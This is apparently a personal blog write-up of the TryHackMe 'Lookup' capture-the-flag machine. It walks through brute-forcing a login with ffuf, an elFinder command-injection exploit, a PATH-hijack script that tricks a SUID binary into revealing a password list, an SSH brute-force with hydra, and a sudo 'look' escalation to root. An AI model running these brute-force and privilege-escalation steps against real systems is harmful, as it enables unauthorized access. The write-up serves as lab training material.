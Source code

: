 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, SUID, GTFObins, Look]
---
```


![Login](https://c00lrabbit.github.io/assets/assets/Images/Lookup/lookup.png)

## Nmap Result

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```bash
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

![Login](https://c00lrabbit.github.io/assets/assets/Images/Lookup/Login-page.png)

- I tried injection attacks, Intercepted the traffic and Analyzed but no use.

#### Using ffuf we can try bruteforcing the login

```bash
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
```
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)

But this password doesn't login so i enumerated the username

```bash
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```

![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- We found a Exploit from Exploit-DB https://www.exploit-db.com/exploits/46481

![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)

- After running linpeas we found a SUID
![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)

- Running pwm binary

![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)

## Analysing the binary
- When we run this binary it executes `id` command and from the result it search for a .password file under the user.

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
### Breakdown of the above commands
- We are redirecting to `/tmp` because `/tmp` directory have mostly read and write access.
- Creating a shell script named 'id' we are echoing the commands into the file 'id'.
-  Adding Execution privilege to the script and exporting `/tmp` dir to PATH, Here comes the intresting part in linux when we are running a command or file it first check the location of the file form the PATHS list so here we are adding the `/tmp` which makes the `/usr/sbin/pwm` script to run our malicious 'id' script.
- Our script will output like the think user and we can read the /home/think/.passwords file Because the pwm script thinks we are 'think' user.

- After running the above line we get this password list

```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
....

```

- Using hydra we can bruteforce the login

```bash
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)

# Privilege Escalation

- Using the found credentials we can ssh into the machine.
```
ssh think@lookup.thm
```

- After running `sudo -l` we found that we have access to "look" with sudo.
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.

![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)

- We got the root

![root](https://c00lrabbit.github.io/assets/Images/Lookup/Root.png)

## Conclusion
- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
- Privilege escalation is Stright forward.
- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.